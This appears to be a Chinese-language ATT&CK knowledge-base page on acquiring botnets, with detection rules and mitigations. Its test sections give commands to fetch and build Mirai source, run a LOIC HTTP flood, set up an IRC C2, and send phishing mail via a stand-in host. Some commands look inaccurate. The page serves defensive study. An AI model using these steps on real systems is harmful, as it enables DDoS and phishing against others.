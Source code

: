 # T1583-005-获取基础设施-僵尸网络

## 描述
攻击者在入侵目标组织之前，可能通过购买、租赁或租用僵尸网络（Botnet）来支持目标定位和攻击执行。僵尸网络是由大量受感染主机组成的网络，这些主机通过恶意软件（如僵尸程序）被控制，可由攻击者通过命令与控制（C2）通道统一指挥。僵尸网络可用于多种恶意活动，包括分布式拒绝服务（DDoS）攻击、大规模网络钓鱼、恶意软件分发、数据窃取或代理中继。

攻击者可能通过以下方式获取和使用僵尸网络：
- **购买/租赁**：通过暗网市场或“booter/stresser”服务订阅现有的僵尸网络，快速获取大量受感染主机。
- **自行构建**：通过传播恶意软件（如Mirai、Emotet）感染主机，组建自定义僵尸网络。
- **功能利用**：
  - **DDoS攻击**：利用僵尸网络发送高流量请求，瘫痪目标服务器。
  - **钓鱼分发**：通过受感染主机发送钓鱼邮件或恶意链接。
  - **恶意软件传播**：使用僵尸网络分发勒索软件或间谍软件。
  - **代理服务**：将受感染主机用作代理，隐藏攻击者真实IP。

僵尸网络的隐蔽性和规模化使其成为攻击者的强大工具，尤其在需要大规模攻击或匿名性的场景中。

## 测试案例
以下是模拟攻击者获取和使用僵尸网络的常见方法和案例：
- **购买/租赁僵尸网络**：
  - 通过暗网市场（如AlphaBay、Dream Market）或“booter/stresser”服务（如vDOS、StressThem）订阅僵尸网络服务。
  - 示例：租用Mirai变种僵尸网络，发起针对目标网站的DDoS攻击。
- **自行构建僵尸网络**：
  - 使用恶意软件（如Mirai、Emotet）感染易受攻击的设备（如IoT设备、未修补的Windows主机）。
    ```bash
    # 使用Mirai源码感染设备
    git clone https://github.com/jgamblin/Mirai-Source-Code
    cd Mirai-Source-Code
    ./build.sh
    # 传播恶意软件并建立C2
    ```
  - 配置C2服务器，使用HTTP或IRC协议控制受感染主机。
    ```bash
    # 配置简单的IRC C2服务器
    sudo apt install inspircd
    inspircd --config /etc/inspircd/inspircd.conf
    ```
- **功能利用**：
  - **DDoS攻击**：使用僵尸网络发起HTTP Flood攻击。
    ```bash
    # 使用LOIC（Low Orbit Ion Cannon）模拟DDoS
    loic <target_url> -method HTTP -threads 100
    ```
  - **钓鱼分发**：通过受感染主机发送钓鱼邮件。
    ```python
    import smtplib
    from email.mime.text import MIMEText
    msg = MIMEText("Click here: http://malicious.com")
    msg['Subject'] = 'Urgent: Account Verification'
    msg['From'] = 'attacker@malicious.com'
    msg['To'] = 'victim@target.com'
    with smtplib.SMTP('smtp.malicious.com') as server:
        server.login('user', 'pass')
        server.send_message(msg)
    ```
- **案例场景**：
  - 攻击者租用Mirai僵尸网络，针对目标组织发起DDoS攻击，瘫痪其Web服务。
  - 使用Emotet僵尸网络分发钓鱼邮件，诱导员工点击恶意链接，窃取凭据。
  - 参考案例：攻击者利用僵尸网络传播勒索软件，影响多个组织。

## 检测日志
僵尸网络相关活动多发生在目标组织监测范围之外，难以直接监测。以下是可能的日志来源：
- **网络流量日志**：
  - 检测与已知C2服务器的异常通信，如高频HTTP/IRC流量。
- **DNS日志**：
  - 记录解析到僵尸网络C2服务器的异常域名查询。
- **邮件服务器日志**：
  - 监控大规模钓鱼邮件，可能由僵尸网络分发。
- **防火墙/IDS日志**：
  - 检测DDoS攻击的高流量模式或异常C2通信。
- **端点日志**：
  - 记录受感染主机的异常行为，如未知进程或网络连接。

## 测试复现
以下是模拟攻击者获取和使用僵尸网络的步骤：
1. **环境准备**：
   - 在授权测试环境中搭建C2服务器（如使用AWS EC2或本地虚拟机）。
   - 配置受控的测试主机，模拟受感染设备。
2. **僵尸网络构建**：
   - 使用Mirai源码感染测试主机：
     ```bash
     git clone https://github.com/jgamblin/Mirai-Source-Code
     cd Mirai-Source-Code
     ./build.sh
     # 部署到测试主机
     ```
   - 配置C2服务器（如IRC或HTTP）：
     ```bash
     # 启动IRC服务器
     sudo apt install inspircd
     inspircd --config /etc/inspircd/inspircd.conf
     ```
3. **测试执行**：
   - 模拟DDoS攻击：
     ```bash
     loic http://target.com -method HTTP -threads 100
     ```
   - 模拟钓鱼分发：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Click here: http://malicious.com")
     msg['Subject'] = 'Urgent: Account Verification'
     msg['From'] = 'attacker@malicious.com'
     msg['To'] = 'victim@target.com'
     with smtplib.SMTP('smtp.malicious.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
4. **结果分析**：
   - 验证DDoS攻击效果或钓鱼邮件分发成功率。
5. **日志收集**：
   - 收集DNS、网络流量、邮件和端点日志，分析僵尸网络活动痕迹。

## 测试留痕
僵尸网络相关活动可能留下以下痕迹：
- **DNS查询**：解析到C2服务器的异常域名。
- **网络流量**：高频HTTP/IRC流量或DDoS攻击的异常流量模式。
- **防火墙/IDS告警**：触发C2或DDoS相关的检测规则。
- **邮件服务器日志**：大规模钓鱼邮件的发送记录。
- **端点日志**：受感染主机的异常进程或网络连接。

## 检测规则/思路
由于僵尸网络活动多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与已知C2服务器的异常通信，关注HTTP、IRC或DNS流量。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"Suspicious C2 Traffic"; content:"irc"; sid:1000001;)
    ```
  - 使用NetFlow或Zeek分析高频或异常流量模式。
- **DNS监控**：
  - 检测解析到C2服务器的异常域名，重点关注新注册或可疑域名。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious C2 Domains
    Condition: DNS query resolves to <KNOWN_C2_IP>
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP工具检测大规模钓鱼邮件，检查包含恶意链接或附件。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Emails
    Condition: Email contains "http" AND NOT "target.com"
    Action: Alert
    ```
- **端点监控**：
  - 使用EDR工具（如CrowdStrike、Carbon Black）检测受感染主机的异常行为，如未知进程或C2连接。
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的C2服务器IP或域名。
  - 监控暗网市场，检测僵尸网络租赁活动。

## 建议
- **减少暴露面**：
  - 修补系统漏洞，防止主机被恶意软件感染加入僵尸网络。
  - 限制员工访问可疑网站或下载未知附件。
- **安全加固**：
  - 配置防火墙限制与已知C2服务器的通信。
  - 实施MFA保护员工账户，防止凭据被钓鱼窃取。
  - 使用WAF保护Web服务，拦截DDoS或钓鱼流量。
- **主动监控与响应**：
  - 部署SIEM工具（如Splunk、ELK），分析异常DNS或网络流量。
  - 使用Shodan或Censys监控暴露的C2服务器。
  - 使用威胁狩猎（Threat Hunting）技术，主动搜索可能的僵尸网络活动。
- **后续阶段检测**：
  - 重点监控攻击者生命周期的后续阶段（如命令与控制T1102、钓鱼T1566、DDoS T1498），通过异常流量或行为间接发现僵尸网络活动。

## 参考资料
- MITRE ATT&CK: T1583-005  
  <https://attack.mitre.org/techniques/T1583/005/>